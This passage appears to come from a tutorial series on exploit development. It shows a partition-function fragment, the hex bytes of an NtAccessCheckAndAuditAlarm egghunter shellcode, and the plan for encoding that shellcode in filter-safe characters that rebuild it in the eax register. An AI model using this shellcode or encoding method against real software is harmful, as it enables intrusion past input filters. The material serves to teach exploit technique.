 ```py
            parts = parts + restricted_partitions(n-good_chars[j], good_chars, j+1, slots-1, part, i+1)
```


## Testing the Partitions Function
Prior to running the <b>partitions</b> function, we assume we have converted a list of good character hex bytes to integer values.

Let's take a look at the 4-byte chunks of our egghunter from Part 1 in this series.

```
#NtAccessCheckAndAuditAlarm egghunter
#using w00t ("\x77\x30\x30\x74") tag

\x66\x81\xCA\xFF
\x0F\x42\x52\x6A
\x02\x58\xCD\x2E
\x3C\x05\x5A\x74
\xEF\xB8\x77\x30
\x30\x74\x8B\xFA
\xAF\x75\xEA\xAF
\x75\xE7\xFF\xE7
```

We had previously found the two's complement of <b>0xE7FFE775</b> to be <b>0x1800188B</b>. Let's assume we are able to pass the bytes that comprise this 
word into our <b>Partitions</b> function. For each byte, our function will return a partition containing three summands. We will need to distribute each summand into three separate lists. After each byte of the two's complement is passed into our function and we have distributed the summands returned from our partitions, we will have three lists containing four bytes each. These four bytes can then be concatenated to form values that when subtracted from zero, manipulate the value in the <code>eax</code> register.

Effectively, this is our translation of Step 5 from the Automated Solution outline we created in Part 1. 

<b>Encoding Loop:</b>
   * Point at the first 4 byte chunk (after reversing the chunk order)<br>
   * Take the two’s complement<br>
   * Generate a <a href="https://en.wikipedia.org/wiki/Partition_(number_theory)" _target="blank">partition</a> containing three operands comprised only of good characters<br>
   * Store operands<br>
   * Increment four bytes<br>
   * If we have not hit the end, loop back to second bullet.<br>



At last, the simple proof of concept below confirms that our <b>Partitions</b> function can be used in our encoder.

<b>partitions-test.py</b>
```py
#!/usr/bin/python

import copy
import struct

twos_comp = ['1800188b']
target_bytes = []
good_chars = []


'''
Finds integer partitions. Partitions used to construct summands to manipulate eax register
Input: Integers from hex bytes of two's complement egghunter chunks
'''
```
